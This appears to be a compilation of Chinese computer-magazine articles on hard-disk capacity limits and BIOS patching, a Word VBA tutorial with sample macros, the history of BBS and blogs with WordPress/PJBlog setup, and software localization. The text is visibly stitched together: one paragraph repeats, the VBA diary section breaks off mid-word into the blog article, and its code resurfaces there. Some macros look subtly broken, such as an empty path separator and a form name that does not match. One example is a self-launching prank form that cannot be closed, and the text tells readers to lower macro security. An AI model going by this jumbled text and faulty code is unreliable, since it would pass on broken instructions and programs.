另外，SATA硬盘虽无主从之分，但是如果您想让SATA和IDE设备共存，那么还得注意硬盘所占的端口不要和其他设备冲突了。目前主板的SATA映射大多与相应的IDE接口对应（如SATA1映射到IDE1）。比如主板的SATA1接口上接有硬盘，那么IDE1通常就无法再接其他硬盘或光驱了（或者只工作在Slave模式下的硬盘或光驱）。

## 我们该怎么做？ 突破大容量的限制

随着硬盘技术的不断发展，硬盘容量也越来越大，但大容量硬盘也会给升级带来无限烦恼，因为不少旧BIOS根本就认不出它们……

## 32GB容量限制

这种限制存在于2000年以前的主板，一般刷新BIOS就可以解决问题，实在没有新BIOS，硬盘上的跳线也可以帮您解决问题。当然，不建议您在这些主板上安装容量在80GB以上的硬盘。

目前希捷和易拓等几个品牌的硬盘都有一个破解容量限制的跳线（希捷叫“Limit capacity of 32GB”，易拓叫“2GB/32GB容量夹”）。正确设置这些跳线后，开机时BIOS就会把硬盘容量识别成32GB。那么剩下的容量就白白不要了？当然不是。安装Windows XP，用其自带的分区工具分区（全部选NTFS格式，C盘不要大于8GB）即可解决。

## 再破137GB容量限制

在以往2GB和32GB容量限制时，您还可以用DiskMan和PQMagic等软件直接对硬盘分区，从而解决问题。不过，当硬盘容量超过137GB后，那些分区软件就无能为力了，因为此时还需要BIOS支持48位寻址。如果BIOS不对此提供支持，那么即使用分区软件对硬盘成功分区，日后用起来也是问题多多。

48位寻址问题主要来自BIOS，并且这些有问题的BIOS还有一个分界线，那就是它们一般出现在奔腾3、Socket 423和早期的K7主板上，新主板不会有此问题。因此，假如您想购买大容量硬盘，请您先向主板厂商查询自己的主板对大容量硬盘的支持情况，然后再决定是购买120GB或以下容量的硬盘，还是冒险走下一步……

既然137GB的容量限制问题来自BIOS，如果有软件能破解这个限制就好了。BIOS Patcher就是这样的BIOS修改工具，它可以破解BIOS对137GB容量的限制，但目前只支持Award BIOS。下载地址：http://rom.by/Award/patcher/bp-4rc71.rar。假设您的主板BIOS文件名是1.bin，那么您在纯DOS下输入命令：bp 1.bin，然后把这个文件刷回主板，一切就搞定了（事先注意备份BIOS）。

另一种方法和上一节讲的方法相似，但此时只能安装Windows XP（因为只能用NTFS格式，C盘同样不要大于8GB），而且必须是集成SP2的Windows XP（或者是包含SP4的Windows 2000），并且记得安装IDE驱动程序。装完操作系统后，建议您不要急着往137GB以后的空间装有用数据，最好先用大小在1GB以上（如一张DVD光盘的全部数据）的数据块把这些空间填满，然后删除，接着再填满……重复几次，待确认无问题后，再往里面装有用数据。

（《电脑爱好者》编辑部）

## 疯狂的 Word 魔术——完美实例瞬间掌握 VBA 的神奇魔力

## 姚明换灯泡、刘翔送快递

Microsoft Office Word，谁没用过的请举手？
OK，第二个问题，Office Word 都能做什么？

很显然，Office Word 不外乎打字、排版，厉害一点的会使用一些版式功能，熟悉新版的还会使用一些文件传阅功能，当然，还可以加上批注、修订等等。不过在我们眼中，这些仅仅是 Office Word 最字面上的本领，就像让姚明换灯泡，或者让刘翔送快递一般地浪费。

## 疯狂的 Word 能做什么？

今天我们便邀请大家一起来体验 Word 的疯狂之处，通过 Microsoft Office 所提供的对 VBA 的支持，我们整理了十个实例，目的是想告诉大家，Word 除了能制做文档以外，还能算命、减肥、泡 MM……
你说烧饭做菜？这个……嗯，到目前为止似乎还不具备这个功能，不过以后也难说。

## Word 怎么开始疯狂的？

当然，VBA 其实是一种可以和 Microsoft Office 互动的编程语言，所以学习 VBA 其实就是在学习编程，只是它并不像其他程序的开发那么难，我们有充足的信心让大家在一天之内掌握实例中的所有内容。真的只要一天，你就可以用 Word 来变魔术，信不信由你，看不看也由你！

## 需要什么让 Word 疯狂？

一说到 VBA 是种编程语言，也许很多朋友立刻就开始头疼脑涨，双眼无光。其实不用怕，让 Word 疯狂并不是一件很难的事情，如果有一点编程基础当然会迅速掌握。但是如果没有编程基础，也丝毫不会妨碍大家成为出色的魔术师。跟随我们的实例，你会发现，让 Word 疯狂仅仅取决于我们的打字速度！

你会打字么？

OK，演出开始了！

## 神奇魔棒：VBA 初体验

在介绍 VBA 之前，先来体验一下 VBA 的神奇魔力。

启动 Word，选择菜单“文件→新建”，然后选择“本机模板→其他文档→简历向导”。这时，Word 就会运行一个向导程序，要求用户选择简历的类型、外观，并提示输入个人信息。当点击“完成”按钮后，一份简历的框架就建立好了。

怎么样，这个简历向导很厉害吧(见图1)！而这个简历向导就是一个包含 VBA 代码的模板，当从这个模板创建新文档时，其中的 VBA 代码就会自动运行，并一步一步指导用户建立自己的简历。

看过了 VBA 的效果，是不是对学习 VBA 更有兴趣了呢？



## 什么是 VBA？

曾几何时，MS Office 软件只提供单纯的办公功能，例如字处理、电子表格和演示文稿。但随着 MS Office 的普及，用户也提出了许多新要求。其中一项就是：能够通过编写程序让 Office 的操作自动化吗？

例如财务人员希望能够自动从几个 Excel 表格中提取数据并按照预先设定的公式进行计算，最后将结果保存到新表格中；而文档管理员希望自动给文档添加公司指定的页眉和页脚……

诸如此类的需求使得 Microsoft 决定为 Office 引入自动化能力。

早期加入 Office 的自动化功能很弱，而且 Word 和 Excel 等组件使用的编程语言还有很大的区别，分别名为 Word Basic 和 Excel Basic。

很快，用户就抱怨这种不一致性让开发工作变得很困难。所以 Microsoft 干脆将当时大红大紫的 Visual Basic 编程语言添加到 Office 中，成为了 Visual Basic for Application，简称 VBA。

虽然 Visual Basic for Application 是 Office 软件内部专用的，但从语法格式、关键特征到编辑器都和 Visual Basic 完全相同。所以 VBA 推出以后立刻吸引了大量的 VB 程序员加入为 Office 开发各种自动化功能。

因为 VBA 大获成功，VBA 也不再是 Office 的专有技术了。许多大型软件都添加了 VBA 功能，从而可以完成各种各样的自动化任务。所以，学习 VBA 是非常值得的。不但可以在工作中减轻劳动强度，而且也是一种很不错的专业技能。

## 下面我们就一起进入 VBA 的世界吧！

小提示

如果选择菜单后，Word 提示你 VBA 没有安装，那么就需要通过 Office 的安装程序将 VBA 安装到硬盘中。同时笔者强烈建议读者安装 VBA 时将 VBA 的帮助文档也包括在内。这样以后编程时随时随地都能查阅各种参考信息了。

## 我们的第一个 VBA 程序

光说不练是不行的，所以我们就来实际尝试一下如何编写 VBA 程序。

首先，启动 Word（当然，Excel 或者其他 Office 组件也行，但还是建议读者按照本专题提供的各种实例进行学习）。然后选择菜单“工具→宏→Visual Basic 编辑器”。我们可以看到一个新程序启动了。这个程序就是 VBA 的开发环境，简称为 IDE。

在图2所示的 IDE 中，左边上方面的窗口是“工程资源管理器”，用来浏览当前所有可以访问的文档以及程序文件。其中，每个文档就是一个根节点（粗体字）。而文档下面对资源进行了分类，其中“Microsoft Word 对象”包含文档及其所拥有的对象，而 ThisDocument 就是文档自身。

此外，图中第一个“Normal”是指 Normal 模板。如果在该模板中添加 VBA 代码，会影响到所有的新建文档和当前使用 Normal 模板的文档。而在各自文档中添加的 VBA 代码只会影响到该文档本身。

IDE 中左下角的窗口为“属性”窗口，用来设置当前操作对象的各种属性。从工程资源管理器中选中不同的对象时，该窗口的内容也会发生相应变化。

IDE 剩下的大片空白区域，就是代码编写窗口了。不过目前我们还没有打开任何一个文档编写代码，所以该区域还是灰色背景。

要提高编写 VBA 代码的效率，VBA 帮助文档是必不可少的。现在我们双击“文档3”下面的“ThisDocument”项目，打开该文档的代码编写窗口，并按照图3输入内容：



IDE 中左下角的窗口为“属性”窗口

会影响该文档本身。

IDE 中左下角的窗口为“属性”窗口，用来设置当前操作对象的各种属性。从工程资源管理器中选中不同的对象时，该窗口的内容也会发生相应变化。

IDE 剩下的大片空白区域，就是代码编写窗口了。不过目前我们还没有打开任何一个文档编写代码，所以该区域还是灰色背景。

要提高编写 VBA 代码的效率，VBA 帮助文档是必不可少的。现在我们双击“文档3”下面的“ThisDocument”项目，打开该文档的代码编写窗口，并按照图3输入内容：



```
Sub MyFirstMacro()
MsgBox "Hello, World"
ActiveDocument.Content.InsertAfter "Hello, World"
End Sub
```

OK，现在点击保存按钮，将文档保存起来。接着切换到“文档3”窗口，选择菜单“工具→宏→运行”，就能看到我们刚刚建立的宏，见图4。



选中“MyFirstMacro”后，点击“运行”按钮，就可以看到 Word 弹出一个对话框，上面提示“Hello, World”。关闭该对话框后，文档还会自动插入一句话“Hello, World”。

## VBA 程序的基本特点

看过了我们的第一个 VBA 程序，现在来看看 VBA 程序有哪些基本特点。了解 VBA 的这些基本特点后，我们会发现 VBA 简单易学，却又功能强大。

VBA 程序采用了 Visual Basic 的语法和程序结构。如果读者学习过 Visual Basic，那么编写 VBA 代码会相当轻松。即便没有学过 Visual Basic，由于 VBA 的语法本身就很简单的，而且帮助文档内容详细，所以只要具备基本的编程知识，也能很快掌握；

和传统的编程不同，绝大多数 VBA 程序都是保存在 Office 文档内部，而不是单独的文件。在一个文档内部，用 VBA 代码编写的宏和函数，只能由该文档使用；

VBA 代码中定义的子过程会被 Office 应用程序当作宏，并出现在“运行宏”对话框中；

在 VBA 代码中操纵 Office 应用程序，实际上是操纵各种 VBA 的内置对象。对象是 VBA 的结构基础，在 VBA 中进行的所有操作几乎都与修改对象有关。Office 中的任何元素，如文档、表格、段落、书签、域等，都可用 VBA 中的对象来表示。所以要掌握 VBA，必须熟悉 VBA 中的各种对象。

## 小提示

要知道 VBA 中都有哪些对象，以及这些对象提供哪些操作，可以查阅 VBA 帮助。帮助中除了 VBA 的基本对象外，还有每个 Office 组件独有的对象。

好了，我们还是跳过这些枯燥的理论知识吧，先看看几个有趣的实例。

## Word 也能“逗你玩儿”

在这部分，笔者为大家准备一些有趣的实例。通过这些实例，可以学习到 VBA 各种基本语句的功能。

请告诉我你的名字 这个实例运行后，VBA会要求你输入自己的姓名，然后它会和你打招呼，见图5。



程序很简单，仅有两行，代码如图6所示：

```
Sub 请告诉我你的名字()
    YourName = InputBox("请告诉我你的名字")
    MsgBox "你好, " & YourName & "!"
End Sub
```

小提示：此处我们使用了中文的子过程名。这在VBA里面是完全合法的。而且除了子过程名字，变量名等也可以使用中文。

在上面的两行代码中，第一行是显示一个输入框（所调用的函数名字叫做InputBox），并显示指定的提示信息（作为InputBox函数的参数）。用户输入的内容将返回给YourName这个变量。最后，通过MsgBox函数显示用户输入的名字和你好等信息。

小测验：怎么让消息框中的内容分为两行或者更多行显示呢？

## 生成数字序列

在Excel中，我们可以方便地生成数字序列，但Word就不行了。不过下面的小程序可以帮助你实现这个功能，见图7。

```
Sub 生成数字序列()
    起始数字 = Val(InputBox("请输入起始数字"))
    序列长度 = Val(InputBox("请输入序列长度"))
    For i = 起始数字 To 起始数字 + 序列长度
        ActiveDocument.Content.InsertAfter i & vbCrLf
    Next
End Sub
```

代码演示了如何使用For To Next语句实现指定次数的循环。在循环内，我们就可以完成许多自动化操作了。要注意的是如果将InputBox返回的内容当成纯数字处理，必须使用Val函数转换，否则VBA会把内容当成字符串。

这个程序使用了一个名为ActiveDocument的对象。该对象表示当前正在被使用的文档。然后通过文档对象的Content对象的InsertAfter方法，就将数字序列插入到了文档中。

小测验：怎么产生从100到1这样的逐渐减小的序列呢？

## 自动转换15位身份证号为18位

这个实例可以通过15位身份证号码推算出18位号码。

代码中，首先用Function语句定义了一个函数。其中的代码完成了身份证号码的转换。函数最后，用“函数名 = 表达式”这样的语法返回了函数的结果。在接下来定义的子过程中，我们就能像使用内部函数一样使用我们自己定义的函数了，见图8。

```
Function 转换函数(老号码)
    新号码 = Left(老号码, 6) + "19" + Right(老号码, 9)
    num = 0
    For i = 18 To 2 Step -1
        num = num + (2 ^ (i - 1) Mod 11) * Val(Mid(新号码, 19 - i, 1))
    Next i
    num = num Mod 11
    Select Case num
        Case 0
            code = "1"
        Case 1
            code = "0"
        Case 2
            code = "X"
        Case Else
            code = Trim(Str(12 - num))
    End Select
    转换函数 = 新号码 + code
End Function

Sub 转换身份证号码()
    老号码 = InputBox("请输入身份证号码(15位)")
    MsgBox "你的新身份证号码是：" & 转换函数(老号码)
End Sub
```

注意，在上面自定义的函数中，用到了Select Case语句。这个语句的作用和一连串的If ElseIf类似，也是用Select Case语句后的变量和Case语句后的表达式进行比较，如果为真就执行Case后的代码，否则跳到下一个Case语句进行比较。

小提示：为了方便使用这个宏，我们可以定制Word工具栏，将宏变成一个按钮。

小测验：检查输入身份证号码中的日期是否有效。

和电脑玩玩数字猜谜游戏吧。电脑会想一个1~10之间的数字，然后给你三次机会，看看你能不能猜中。

```
Sub 猜数字()
    Randomize
    我心中的数字 = Int(10 * Rnd + 1)
    猜测机会 = 3
    已经猜中 = False
    While 猜测机会 > 0 And 已经猜中 = False
        猜测机会 = 猜测机会 - 1
        猜测的数字 = Int(Val(InputBox("你还有" & 猜测机会 & "次机会，请输入你猜测的数字")))
        If 猜测的数字 > 我心中的数字 Then
            MsgBox "你猜的数字太大了！"
        ElseIf 猜测的数字 < 我心中的数字 Then
            MsgBox "你猜的数字太小了！"
        Else
            MsgBox "恭喜！你猜中了！"
            已经猜中 = True
        End If
    Wend
    If 已经猜中 = False Then
        MsgBox "我想的数字是" & 我心中的数字 & "，没猜对吧！"
    End If
End Sub
```

## 你到底爱不爱我？

追mm真可谓痛并快乐着，所以偶尔捉弄一下mm既可以放松放松，说不定还有特别的功效呢！

这个程序运行后，不管mm怎么点，她都不可能点得中“我不认识你”按钮。点击窗口的“X”也没反应，所以mm最后只好选你最喜欢那个答案啦！现在我们来看看怎么做出这个恶搞程序。

启动VBA IDE，然后在“Project (Doc3)”上点击鼠标右键，选择菜单“插入→用户窗体”。IDE会在代码编辑区建立一个新的空白窗体。

在新窗体旁边，可以看到一个名为“控件”的面板。通过简单地拖放操作，我们就能增加标签、按钮、输入框等各种控件到窗体上。

首先在窗体中放置一个标签，并设置Caption属性为“你到底爱不爱我”，标签的颜色和字体分别使用ForeColor属性和Font属性调整。接下来，增加两个按钮，并通过（名称）属性分别命名为“button1”和“button2”。

OK，我们现在需要为这些按钮编写事件处理子过程了。例如我们可以为button1这个按钮编写一个点击事件的处理子过程。那么当程序运行时，只要用户点击了button1按钮，我们编写的事件处理子过程就会被调用。

双击button2按钮，IDE将切换到代码编写窗口，并自动插入Click事件的代码。不过我们不需要这个事件，所以从代码窗口右上方的列表中选择MouseMove事件。这时IDE会自动生成MouseMove事件的代码。同理，我们还需要添加button1按钮的Click事件，窗体的QueryClose事件（双击窗体空白部分可以添加窗体事件）。

```
Private Sub button1_Click()
    MsgBox "我不认识你"
End Sub

Private Sub button2_MouseMove(ByVal Button As Integer, ByVal Shift As Integer, ByVal X As Single, ByVal Y As Single)
    Randomize
    button2.Left = Rnd() * (UserForm1.InsideWidth - button2.Width)
End Sub

Private Sub UserForm_QueryClose(Cancel As Integer, CloseMode As Integer)
    Cancel = True
End Sub
```

代码很简单，button2_MouseMove事件处理子过程在鼠标移动到button2按钮上时被调用。这个子过程会随机改变按钮的位置，让你老是点不中。当然了，偶尔还是可能出现按钮改变位置后还是能点到的情况，不过我们既然没有为button2按钮编写Click事件处理子过程，就算被点中了也不会发生任何事情 :P

UserForm_QueryClose事件处理子过程在点击窗体“X”按钮时调用。由于设置Cancel为True，所以窗体就不会被关闭。最后，为button1按钮编写Click事件处理子过程，显示自己想告诉mm的话就行了哦。

不过光有窗体和事件还不行，我们还要让mm打开文档时就自动显示这个窗体。这可以在文档中添加一个名为Document_Open的子过程实现。注意子过程定义前面的Private语句，见图11。

```
Private Sub Document_Open()
    Set form = New UserForm1
    form.Show
End Sub
```

小提示：可以从代码窗口左上方的下拉列表框中选择对象，然后从右边下拉列表框中选择事件，IDE会自动生成需要的子过程。

OK，现在把文档给mm送过去吧。不过...

## 豪华版体重身高评测器

这个小程序首先让你输入你的身高和体重，然后会告诉你，你的体重是否超重或者太轻，见图 12。 要创建这个程序首先还是添加一个新窗体，并按照界面添加需要的各个控件。并将两个文本框分别命名为“身高”和“体重”，将按钮命名为“测试”，最下面的标签命名为“结果”。 然后双击“测试”按钮，输入下列代码： 最后，在文档中添加一个子过程，并按照这里的代码调用窗体。这样我们就可以打开文档后通过“运行宏”对话框执行我们的窗体了。 程序的工作流程是这样的，首先是要求用户输入身高和体重，然后计算出体重指数。接下来的If语句称为判断语句，就是根据If和Then语句之间的表达式进行判断。如果表达式的结果为真，则执行Then后面的代码。 由于判断有很多个，所以If语句下面接了多个ElseIf，表示当一个判断的结果为假时，就进行这个判断。通过多个ElseIf，就形成了一个判断流程。但只要其中一个判断的结果为真，VBA就会执行这个判断Then语句后的代码，并跳过剩余的判断，见图13。



```
Private Sub 测试_Click()
    体重指数 = Val(体重.Text) * 10000 / (Val(身高.Text) * Val(身高.Text))
    Select Case True
        Case 体重指数 >= 18 And 体重指数 <= 25
            结果.Caption = "标准"
        Case 体重指数 > 25 And 体重指数 <= 30
            结果.Caption = "超重"
        Case 体重指数 > 30 And 体重指数 <= 35
            结果.Caption = "轻度肥胖"
        Case 体重指数 > 35 And 体重指数 <= 40
            结果.Caption = "中度肥胖"
        Case 体重指数 > 40
            结果.Caption = "重度肥胖"
        Case Else
            结果.Caption = "太瘦"
    End Select
End Sub
```

## 看看你有多啰嗦

有时候我们希望统计文章中某个词汇的出现次数，这时就可以用下面的小程序来帮忙了。 这个窗体上只有三个控件，文本框命名为“词”，按钮命名为“统计”。双击“统计”按钮添加事件代码： 这段代码看上去很长，但只有三个步骤。首先用ActiveDocument.Goto方法将光标定位到文档第一页。然后设置Find对象的各种属性，其中包括设置要查找的文本。最后，通过循环进行查找并计数，直到文档结尾。 读者可能要问，设置Find对象那一段代码涉及那么多属性，我怎么知道该如何设置啊？其实我们可以利用Office的宏录制功能来帮助我们写代码。 在Word中选择菜单“工具→宏→录制”，然后选择宏的名字以及保存位置，并点击“确定”按钮。 开始录制后，进行查找等操作。完成后点击“录制宏”工具栏上的“停止录制”按钮。Word就会自动生成一个宏，并保存到我们指定的文档中。在IDE中，我们可以看到会出现一个新的模块文件，宏代码就保存在其中，见图14。 利用这个技巧，我们不但可以方便地编写大量代码。还能将一些自动化任务录制成宏，方便以后使用。 小提示 录制宏时，任何操作都会转化成宏代码，即便是误操作后按Ctrl+Z恢复也会记录下来。因此录制宏时尽量不要进行多余的操作。 小测验 改进这个统计程序，一次性统计多个词汇。

```
Private Sub 统计_Click()
    ActiveDocument.GoTo What:=wdGoToPage, Which:=wdGoToAbsolute, Name:="1"
    With Selection.Find
        .ClearFormatting
        .Text = 词.Text
        .Replacement.Text = ""
        .Forward = True
        .Wrap = wdFindContinue
        .Format = False
        .MatchCase = False
        .MatchWholeWord = False
        .MatchByte = True
        .MatchWildcards = False
        .MatchSoundsLike = False
        .MatchAllWordForms = False
    End With
    出现次数 = 0
    While Selection.Find.Execute = True
        出现次数 = 出现次数 + 1
    Wend
    MsgBox "你输入的词在文档中一共出现了 " & 出现次数 & " 次"
End Sub
```

## 成就魔术大师的时刻

前面看了那么多实例，现在我们来制作一个实用的VBA综合性程序，帮助我们完成日常的工作和学习。

全自动图片导出 用Word编写文档，可以做出图文并茂的精彩文档。但要导出文档中的图片就比较麻烦了。虽然可以通过将文档另存为HTML格式从而获得文档的所有图片，但如果要大批量转换文档，这个方法就很繁琐了。下面的小程序可以让你仅仅点击一下工具栏按钮就完成图片导出工作。

创建这个程序只需要两个步骤。

首先打开VBA IDE，在Normal中添加一个窗体（注意，一定要在Normal中，否则该程序不能用于其他文档），并按照下图放置控件。复选框命名为“关闭原文档”，按钮命名为“导出”，见图15。

双击“开始导出”按钮，输入代码，见图16。

这段代码首先取得当前打开文档的路径、名字等信息，然后创建一个“FileSystemObject”对象，并获取临时文件名。接着，程序将文档以HTML格式保存为临时文件，此时文档的图片也自动导出了。

导出完成后，程序会关闭文档，并删除临时文件，将保存图片的目录名改为“export_images”。最后根据复选框的状态决定是否打开原始文档。

这段程序充分利用了“FileSystemObject”和Word自身的功能，大大简化了实现难度，这也是我们在用VBA开发程序时要充分利用的技巧。毕竟Office自身已经拥有大量功能，只要合理组合，很容易就能实现一些看上去很复杂的功能。

最后，在Normal项目的ThisDocument中添加下列代码，见图17。 OK，保存Normal模板。打开一个有图片的文档，运行“导出文档图片”宏，试试看效果如何。



```
Set fso = CreateObject("Scripting.FileSystemObject")
文档路径 = ActiveDocument.Path & ""
文档文件名 = ActiveDocument.Name
临时文件名 = fso.GetTempName
ActiveDocument.SaveAs2 FileName:=文档路径 & 临时文件名, FileFormat:=wdFormatFilteredHTML, LockComments:=False, Password:="", AddToRecentFiles:=False, WritePassword:="", ReadOnlyRecommended:=False, EmbedTrueTypeFonts:=False, SaveNativePictureFormat:=False, SaveFormsData:=False, SaveAsAOCELetter:=False
ActiveDocument.Close wdDoNotSaveChanges
fso.MoveFolder 文档路径 & fso.GetBaseName(临时文件名) & ".files", 文档路径 & "export_images"
fso.DeleteFile 文档路径 & 临时文件名
If 关闭原文档.Value = False Then
    Documents.Open 文档路径 & 文档文件名
End If
```



## 记下心中的小秘密

终于迈过了前几道门槛，现在来制作一个比较复杂的自动添加页和带密码保护功能的Word日记本。当我们打开这个文档时，Word会显示一个窗体，提示输入新日记的日期等信息，确认后自动添加一个空白页，并自动插入基本信息。最后程序会更新文档第一页的目录。而且这个日记本还有密码保护功能，不知道密码是打不开的哦。

这个日记本程序不算复杂，主要分为几个步骤：第一步是建立一个文档，定义好需要的样式；第二步是在第一页插入空白目录，便于以后程序进行更新；最后一步就是编写VBA代码，让打开文档时提示输入密码。通过验证后自动显示窗体。

现在我们就一步步的来创建这个程序。

第一步：创建文档

在Word中创建一个空白文档，然后设置好页面和样式。为了能够自动更新目录，我们要定义一个名为“日记标题标题”的样式。至于样式的具体格式，读者朋友们可以按照自己的需要来确定了。

第二步：插入目录

选择菜单“插入→引用→索引和目录”，然后切换到“目录”选项卡。接着点击“选项”按钮打开目录选项对话框。

在这个对话框中，取消选中“大纲级别”选项，并在有效样式列表中，找到“日记标题”项，在目录级别中输入“1”。同时，去掉所有其他样式的目录级别。

确认后，目录域会插入到文档中。但由于目前没有任何日记，所以会显示“错误！未找到目录项”字样。我们暂时不管它。

第三步：创建VBA程序

启动VBA IDE，创建一个新窗体，命名为“diary”（注意，不要将窗体名字设为中文，否则VBA IDE会出错），并按照图18添加控件。

三个文本框分别名为“日期”、“标题”和“天气”，按钮名为“追加”。双击“追加日记”按钮输入下面的代码，见图19。

代码中 UserForm_Initialize 子过程是在窗



```
Private Sub UserForm_Initialize()
    日期.Text = Format(Date, "yyyy年m月d日")
    标题.SetFocus
End Sub

Private Sub 追加_Click()
    Selection.EndKey Unit:=wdStory
    Selection.TypeParagraph
    Selection.Style = ActiveDocument.Styles("日记标题")
    Selection.TypeText 日期.Text & " " & 标题.Text & " " & 天气.Text
    Selection.TypeParagraph
    ActiveDocument.Fields.Update
End Sub

Private Sub CommandButton1_Click()
    Unload Me
End Sub
```

# 游走在边缘的免费午餐

“边缘”其实就是一种尴尬
“游走在边缘的免费午餐”这样一个想法并不是突然萌发，恰恰相反，存在很久很久。但是真的要开始实施的时候却发现“边缘”确实是一道无法逾越的鸿沟。

> ——摘选自《神雕侠侣》第四十回 华山之巅

# 免费以及自由，言论网络化解放的基石

在如今这个网络时代，资源的免费共享已经成为一种口号，受到这种精神的感召，我们一直安心地享受着各种免费大餐。在品尝这些可口佳肴的同时，你是否了解过它的来历，它的发展，它又是怎样闯入你的生活的呢。今天，让我们来了解一下无处不在的 BBS 是怎样远渡重洋来到中国的。

# BBS 来到中国

大约是从 1991 年开始，国内出现了第一个 BBS 站。经过长时间的发展，直到 1995 年，随着计算机及其外设的大幅降价，BBS 才逐渐被人们所认识。1996 年更是以惊人的速度发展起来。

1997 年的中国还处于聊天室的时代，由于当时的网络大环境不甚理想，因此基于 Web 页面的论坛还尚未成为气候。那时中国的早期网民多数仍在使用 TELNET 下的 BBS，但由于 TELNET 界面简陋，操作繁琐，因此使用者多为专业人员。随着论坛文化的爆发以及个人电脑的迅速普及，中国人开始逐步引进国外以 UBB (Ultimate Bulletin Board) 为代表的源码开放论坛程序以搭建自己的网络交流平台，爱好者们自发组织起来翻译文档，纠正错误，增强功能。正是因为这些热心的民间团体所做出的努力，使得中文的论坛遍地开花，即使你是一个新手，也可通过阅读文档方便地建立起自己的论坛，而后台设置里一个个跳跃的方块字也足以让我们心花怒放。

然而东西再好，那是外国人的，于是很自然的，以 LEOBBS, DVBBS 为代表的国内优秀论坛应声而出了。如今，国内自行开发的各类论坛程序可谓琳琅满目，在界面以及易用性上更加符合中国人的特点，在未来的日子里，国产 BBS 将继续肩扛国内主流论坛程序这面大旗走下去。

# Blog, 我的地盘!

现如今，在网上申请一个 Blog 已经再简单不过，但是各大网站所提供的 Blog 几乎千篇一律，难展个性。如果你有能力构建自己的网络空间，那么也绝对应该搭建起自己专属的 Blog，因为“我的地盘得我做主！”这里我们介绍两种 Blog 的安装，一种是目前流行的 WordPress，另一种则是 PJBlog。WordPress 使用 PHP 语言开发，运行速度快，功能丰富，所以目前非常热门。而 PJBlog 则是国人汉化的国外作品，比起 WordPress 提供了更多国人喜欢的功能，例如插入视频、flash 等（WordPress 需要另外装插件才能实现）。



```
Private Sub Document_Open()
    frm.Show
End Sub
```



经过这样设置后，我们的日记本文档打开时就会自动显示窗体了。不过记得要把宏安全性设置为“中”或者“低”哟。现在最后一个步骤就是为文档加上密码，保护我们的隐私。选择菜单“工具→选项”，切换到“安全性”选项卡，输入打开文档所需的密码，见图 21。

Blog 是近几年互联网上的新事物，出现在 1997 年年底，最早提供注册服务的是当初 Pyra 公司的 Blogger.com，Blogger.com 已 2003 年被 Google 收购。

Blog 为个人在网络空间的自由表达打开了一扇窗。促进 Blog 应用发展，不仅仅是 Blog 自身自由写录的日志功能，同时也是伴随这样一种自由表达和网络互联应用的一系列应用技术而发展的，比如 RSS (RSS: Rich Site Summary 或 Really Simple Syndication，中文称作“简易信息聚合”)。另有一种解释是 RDF Site Summary，即 RDF 站点摘要) 的出现和发展，完全改变了原先逐个站点点击的阅读方式，也是就是伴随个人 Blog 站点的增加，人们的阅读方式也发生了相应的变化。

1999 年是 Blog 开始高速增长的一年，自由的写作空间允许你天马行空一般写下自己想写的任何东西，然而这个新时代产物流传到中国并普及，已经是几年后的事，而且客观的说，如果不是“木子美”这个名字，那么中国 Blog 的发展将会再推后一段时间。

# WordPress 安装步骤

首先访问http://wordpress.org/download/, 点击“Download.zip”按钮下载安装包。解压缩下载的.zip文件到我们的web文档根目录中，并将默认的目录名由wordpress更名为blog。然后使用浏览器访问http://wp.dualface.com/blog/ (读者朋友们要将这个地址改为自己的对应链接) 开始进行安装。因为还没有进行配置，所以此处只显示了一些提示信息。

现在我们点击“create a wp-config.php file through a web interface”连接，开始配置。跳过第一页的说明，输入数据库名称、连接用户名、密码等信息 (这些信息来自我们安装好的 MySQL 数据库)。输入完成后点击“submit”按钮提交，如果正确，则会显示确认信息，并提示点击“run the install”连接。

接下来的安装步骤就很简单了，只需要输入blog标题、联系邮件地址即可。安装成功后，会在页面上提示管理用户名和初始密码。点击“log in”即可登录。记得登录后一定要修改初始密码。

现在我们的部落就搭建好一半了，接下来就是按照自己的意思进行各种设置吧！

# PJBlog 安装步骤

我们再来看看另一种Blog程序的安装和设置。访问“http://www.pjhome.net/default.asp?catelD=7”下载最新版本的PJBlog，然后解压缩到web服务器文档根目录的blog目录下。然后通过浏览器访问对应的Web链接。

由于PJBlog已经附带了数据库，所以无需任何安装步骤即可访问。

但我们还需要修改一些设置才能让PJBlog开始工作。首先点击页面右边的“登录”，输入默认用户名“admin”和密码“admin888”登录。

但登录后并不是进入后台，还需要点击右边的“系统管理”连接，再次输入密码“admin888”才能够进入后台。

不过要修改自己的密码却不是通过后台，而且点击首页右边的“修改个人资料”，然后输入新密码。

比较而言，PJBlog的功能更多一些，而且默认就是全中文的，加上又不需要安装，所以适合第一次安装Blog的读者朋友。而WordPress则提供了更多的定制能力，而且相比PJBlog采用的ASP语言，PHP语言本身功能也更强，运行速度也更快。不过由于安装更复杂，而且为英文界面，适合熟练用户采用。

# 汉化是一种使命

回顾国内汉化历史，其实并不太长，刚开始时，汉化完全是小部分人的兴趣所致，例如搞出点小范围交流的汉化版DOS系统。汉化在国内真正开始起步，是95年后的事情了。里程碑式的Windows 95操作系统正式推出后，图形用户界面让更多的普通人开始接触电脑，软件汉化成为普通电脑用户的现实需要。而国内互联网环境也大为改善，分散在各地的汉化人，再也不是单打独斗，他们终于有了一个相互交流汉化技术的平台。

就此开始，涌现出关子、张学思、伟乾、水手、豪仔、龙飞等汉化名人，出现了中国软件汉化同盟、汉化新世纪、捷迅中文化天地、红星汉化社、飞龙阁、YY工作室、驭海人家等著名汉化网站。正是这些人、这些网站，为国内汉化最初的积累、推广，默默地无私奉献着。汉化人整体技术得到普遍提高，而更多的新人也开始了解并加入到汉化这件事情中来。

随着时代的进步，汉化再也不能由着个人兴趣随便发挥了。它不仅仅是个技术性问题，汉化开始涉及到法律问题了。就我国现行相关法律规定而言，未经软件版权人（包括外国软件版权人）同意，将外文软件的操作界面、说明文档等翻译成中文并将其传播的行为，显然违反了法律有关规定。与那些热门领域相比，软件汉化实在尴尬:地位不明，权益无保障，名利被质疑，营利更无从谈起。从事汉化的人，大多是凭热情和毅力在坚持着！而汉化却是当今中国软件发展、推广、普及所不可或缺，无论怎么说，中国软件业的现状决定了汉化存在的必要，它也将继续存在下去。

因为，汉化本就是一种使命！

# 做一份我们自己的汉化大餐

想不想做一份我们自己的汉化大餐？虽然软件汉化是件技术性非常强的工作，但只要有一定外文及计算机基础，都可以尝试一下。对于汉化初学者来说，只需要找个称手的汉化工具就可以开工了。

软件汉化的对象就是那些外文（如英文）软件中的文字相关内容。通常软件在编写时，作者会把跟软件界面、提示等有关的文字组织在一起进行统一管理，它们被汉化人统称为“资源”。汉化的过程就是通过特殊的本地化工具，将软件中的这些“资源”提取出来，然后在工具中进行翻译，最后由工具写入回原始软件中。

